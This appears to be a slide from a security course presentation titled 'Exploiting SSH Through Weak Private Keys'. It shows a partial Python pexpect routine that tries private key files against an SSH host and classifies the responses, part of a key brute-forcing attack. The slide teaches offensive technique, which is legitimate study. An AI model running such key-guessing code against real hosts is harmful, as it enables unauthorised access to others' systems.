

# Exploiting SSH Through Weak Private Keys CONTD..

try:
        perm_denied = 'Permission denied'
        ssh_newkey = 'Are you sure you want to continue'
        conn_closed = 'Connection closed by remote host'
        opt = '-o PasswordAuthentication=no'
        conn_str = 'ssh {}@{} -i {} {}'.format(user, host, keyfile, opt)
        child = pexpect.spawn(conn_str)
        ret = child.expect([pexpect.TIMEOUT, perm_denied, ssh_newkey, conn_closed, '$', '#', ])
        if ret == 2:
            print('[-] Adding Host to ~/.ssh/known_hosts')
            child.sendline('yes')
            connect(user, host, keyfile, False)